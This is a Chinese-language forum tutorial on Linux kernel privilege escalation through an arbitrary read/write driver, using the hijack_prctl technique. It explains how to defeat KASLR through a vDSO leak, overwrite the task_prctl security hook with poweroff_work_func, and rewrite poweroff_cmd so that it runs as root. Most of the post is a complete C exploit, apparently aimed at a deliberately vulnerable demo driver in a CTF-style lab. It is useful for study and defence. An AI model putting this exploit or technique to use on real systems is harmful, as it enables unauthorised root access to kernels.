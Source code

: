 # linux 内核提权总结(demo+exp分析) -- 任意读写(三) 


[发表于看雪论坛](https://bbs.pediy.com/user-839858.htm)

## hijack_prctl篇

+ prctl函数: 用户态函数，可用于定制进程参数，非常适合和内核进行交互
    1. 用户态执行prctl函数后触发prctl系统调用
    2. 内核接收参数后执行security_task_prctl
    3. security_task_prctl执行hook.task_prctl

+ poweroff_work_func函数: 内核函数，执行 run_cmd(poweroff_cmd)，即root权限执行poweroff_cmd

+ 攻击流程:
    1. 劫持hook.task_prctl为目标函数地址(poweroff_work_func)
    2. 修改poweroff_cmd为目标指令
    3. 用户执行prctl函数，触发

### 一. 利用步骤

#### 1. 定位内核加载基地址(开启kaslr)

+ 同hijack_vdso，泄漏vdso地址，因为内核kaslr开启后，只有较高字节的地址发生偏移，且vdso与基地址相距较近，所以可以使用vdso定位内核加载地址

#### 2. 定位hook.prctl，poweroff_cmd地址

+ gdb调试内核并在security_task_prctl函数处下断点，用户态程序执行prctl函数，进入security_task_prctl函数，单步执行汇编指令，通过内存查看hook.task_prctl 地址

+ gdb 执行 p poweroff_cmd，获得poweroff_cmd真实地址
+ 获得hook.prctl，poweroff_cmd与内核基地址固定偏移

#### 3. 修改poweroff_cmd 为任意指令
#### 4. 用户态执行prctl函数，触发

### 二. 驱动代码(见cred篇)

### 三. exp

``` c
#define _GNU_SOURCE

#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CHANGE_POINT 0x100000
#define RW_READ 0x100001
#define RW_WRITE 0x100002
#define SET_MEM 0X100003

size_t poweroff_cmd = 0;
size_t prctl_hook = 0;
size_t poweroff_work_func = 0;
size_t vmlinux_base = 0;

struct vunl
{
    char *point;
    size_t size;
} VUNL;

void leak_data(int fd, char *buf)
{
    char *res = NULL;

    VUNL.size = 0x1000;
    for (size_t addr = 0xffffffff80000000; addr < 0xffffffffffffffff; addr += 0x1000)
    {
        VUNL.point = (char *)addr;

        ioctl(fd, CHANGE_POINT, &VUNL); //change the point
        ioctl(fd, RW_READ, buf);
        if (!strcmp("gettimeofday", buf + 0x2b5))
        {
            printf("[+] the addr of VDSO is: 0x%lx\n", addr);
            vmlinux_base = addr & 0xffffffffff000000;
            printf("[+] the addr of vmlinux base is: 0x%lx\n", vmlinux_base);
            break;
        }

        puts("[-] not found, try again!\n");
    }
    return;
}

int main(int argc, char *argv[])
{
    int fd = 0;
    char *buf = malloc(0x1000);
    char cmd[] = "/bin/chmod 777 /flag\x00";

    fd = open("/dev/rw_any_dev", O_RDWR);
    leak_data(fd, buf);
    poweroff_cmd = vmlinux_base + 0xe3e1a0;
    prctl_hook = vmlinux_base + 0xe81078;
    poweroff_work_func = vmlinux_base + 0x075480;

    printf("[+] the addr of poweroff_cmd is: 0x%lx\n", poweroff_cmd);
    printf("[+] the addr of prctl hook is: 0x%lx\n", prctl_hook);
    printf("[+] the addr of orderly_poweroff is: 0x%lx\n", poweroff_work_func);

    VUNL.size = strlen(cmd)+1;
    // VUNL.size = strlen(argv[1])+1;
    VUNL.point = (char *)poweroff_cmd;
    ioctl(fd, CHANGE_POINT, &VUNL);
    ioctl(fd, RW_WRITE, cmd);
    // ioctl(fd, RW_WRITE, argv[1]);

    VUNL.size = 8;
    VUNL.point = (char *)prctl_hook;
    ioctl(fd, CHANGE_POINT, &VUNL);
    ioctl(fd, RW_WRITE, &poweroff_work_func);
    puts("[+] the cmd arg must have an ansolute_address");
    prctl(PR_GET_NAME, "test");

    return 0;
}
```


